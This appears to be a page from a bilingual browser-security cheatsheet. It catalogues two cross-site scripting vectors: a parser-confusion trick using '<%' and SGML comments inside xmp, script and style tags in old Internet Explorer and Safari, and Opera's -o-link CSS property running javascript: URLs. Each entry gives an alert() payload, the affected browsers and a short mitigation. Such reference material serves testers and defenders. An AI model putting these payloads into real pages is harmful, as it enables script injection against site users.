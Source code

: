 *   #102
*   #115

reporter：jackmasa

### "<% %>" and "" inside plaintext tags#134test

Structures "<%" и "". The syntax in the tags such as <style>, <script> should be valid taking into account these sections, otherwise throws an exception. So, the second example shows that closing </script> tag will be considered as an operator "less" and the regular expression start. The examples are worked up to IE 9 standards mode. SGML-like comment delimiters is similarly parsed in older versions of Safari.

```
<xmp> <% </xmp> <img alt='%></xmp><img src=xx:x onerror=alert(1)//'> <script> x='<%' </script> %>/ alert(2) </script> XXX <style> *['<!--']{} </style> -->{} *{color:red}</style> 
```

Encode all opening brakets inside plaintext tags. Escape for the closing tags ("<\/script>") is not sufficient.

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   safari 3.0

*   safari 4.0.3

*   xss

*   plaintext
*   internet explorer
*   safari
*   comment
*   SGML
*   escape

*   #91

*   #38
*   #40

reporter：sirdarckcat, wpulog

## 基于 CSS 注入的向量

### 使用 Opera 的 CSS 属性 link-source 执行 javascript#9test

Opera 允许给任何 HTML 元素设置 link sources,它们将可以点击和执行 javascript.注意:opera 11 要求是<a>标签,早期版本任意

```
<a style="-o-link:'javascript:alert(1)';-o-link-source:current">X</a> 
```

*   opera 8.0
*   opera 12.0 (limited)

*   xss

